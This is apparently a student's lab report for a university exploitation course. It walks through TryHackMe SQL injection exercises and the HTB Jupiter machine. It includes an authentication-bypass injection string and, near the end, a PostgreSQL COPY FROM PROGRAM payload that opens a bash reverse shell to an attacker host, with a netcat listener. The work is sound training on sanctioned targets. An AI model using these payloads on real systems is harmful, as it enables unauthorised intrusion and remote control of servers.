


# Lab 02 - Injection

## Scope

This assessment scope focused on two activities:

1. TryHackMe SQL Injection - an assessment where we implement basic SQLi skill in order to progress through a set o level.
2. Jupiter HTB VM - starting from the enumeration information from the previous report, we will try to gain access to the VM using a known vulnerability through SQLi

## Part 1a - TryHackMe

_Observe the resolution ans quizz answers at [TryHackMe Resolution](./TryHackMe_SQLInjection.pdf) pdf file._

### Objectives

The objective of this machine was to explore the types of exploitation and methods of interaction during an SQL Injection attack.

One is expected to have explored:

-   **Types of SQL Injection**: Exploring various types of SQL injection attacks, such as In-Band SQL Injection, Blind SQL Injection and Time-Based Blind SQL Injection.
-   **Tools and Techniques**: Learning about tools like SQLMap and manual techniques to identify and exploit SQL injection vulnerabilities.
-   **Mitigation**: Understanding how to prevent SQL injection by implementing security measures like input validation and parameterized queries.

### Task 5 - In-Band SQL Injection

In-band SQL injection is a type of SQL injection attack where an attacker uses the same communication channel, such as the application's response, to both inject malicious SQL code and retrieve the results of the injected query.

One starts by exploring the response of the service to SQL statements, and an exposed _Error_ message is ideal.


As we can see, the tables have a **different number of columns**, so we will add columns until it matches. Which in this case is three.


<P style="page-break-before: always">

Now that the number or columns is guessed, we can request other information like the database name.


Knowing the database name, we'll view all the available tables within it.


<P style="page-break-before: always">

The `staff_users` table should be visited as information regarding users is always prone to have sensitive information.


Sure enough, it does contain usernames and passwords that we can use to ingress further in the website.


<P style="page-break-before: always">

### Task 6 - Blind SQLi

Blind SQLi is when we get little to no feedback to confirm whether our injected queries were, in fact, successful or not, this is because the error messages have been disabled, but the injection still works regardless.

First let's try to log in with random credentials to see what the response is.


We can observe that the SQL query that is being formed does not sanitize the user input, that is covinient has we can bypass the authentication by forcing the query to always return **True** by inputting ` OR 1=1; --`


### Task 7 - Boolean Based Blind SQLi

Boolean based SQL Injection refers to the response we receive back from our injection attempts which could be a true/false,yes/no, on/off, 1/0 or any response which can only ever have two outcomes.

Since all we know is that the querie will either return `true` or `false`, we must experiment all possible option that result in a true evaluation. Only when one option returns true, can we processed with the next value of the querie.


<P style="page-break-before: always">

Some values we can infer based on the pattern of the already known infrastructure.


<P style="page-break-before: always">

For more realistic values, a brute force tool will be absolutely essential for guessing large amounts of values in short periods of time.


But eventually, we will be able to guess the password.


<P style="page-break-before: always">

### Task 8 - Time Based Blind SQLi

A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete.

For our first attempt, when guessing the number of columns, we will indicate a _sleeping_ time of 5 seconds. If the response to this query takes this long to be retrieved, we will now we are matching the query parameters.


Knowing this, the procedure will now be the same as the other injection types. We will begin by guessing the database name, followed by searching for a table with sensitive information and hopefully retrieve information that allows us to log in.


<P style="page-break-before: always">

## Part 1b - Jupiter HTB Machine

Starting from the last report (Lab01), we had discovered 3 crucial information about the Jupiter machine:

1. By mapping the ports, we discoverd **port 80** exposed, which lead to the domain **jupiter.htb**
2. By fuzzing for subdomains, we discoverd **`kiosk`** to be a subdomain.
3. `kiosk` takes us to a Grafana dashboard, exposing graphs and various data.




One thing I always like to do when visiting _hidden_ pages, is proxy and intercept all packets. This pages are hidden for a reason, and maybe is due to laziness when fixing vulnerable services.


<P style="page-break-before: always">

Lets proxy all our traffic through BurpSuit using _Proxy_. We can click on `Forward` to let the page further render until we find some interesting packets. Sure enough we find the request for data to fill the graphs, and interesting enough, there is raw SQL query in them.


<P style="page-break-before: always">

With BurpSuite, we can now them this request to the _Repeater_ were we will be able to manipulate, re-send the request, and observe the responses.



<P style="page-break-before: always">

The obvious thing to do is to manipulate the SQL query and discover if it sanitizes the values given to it. We discover that it does not and the query is intact, as visible in the response, this means that we can pass custom queries to the database.


Searching the community, we discoverd that a payload for [Postgres SQL already exists](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193)! Lets exploit it by passing whatever program we desired.


<P style="page-break-before: always">

In this scenario, for optimal communication, a reverse shell would be an ideal scenario, lets use it. By creating a query payload that forces the server to connect via TCP, we can run _netcat_ in our attacking VM to accept incoming connections.

``` SQL
CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i 
>& /dev/tcp/<ip>/6969 0>&1\"' 
```


> _Make sure to allow the port 6969 through your firewall if needed._

Run the _netcat_ command in your terminal: `nc -nvlp 6969`

Send the request, and sure enough, the connection is established.


# Author

David José Araújo Ferreira, 93444 - [davidaraujo@ua.pt](mailto:davidaraujo@ua.pt)

Report submitted for the Lab 02 of _Analysis and Vulnerability Exploitation_ course at the University of Aveiro.
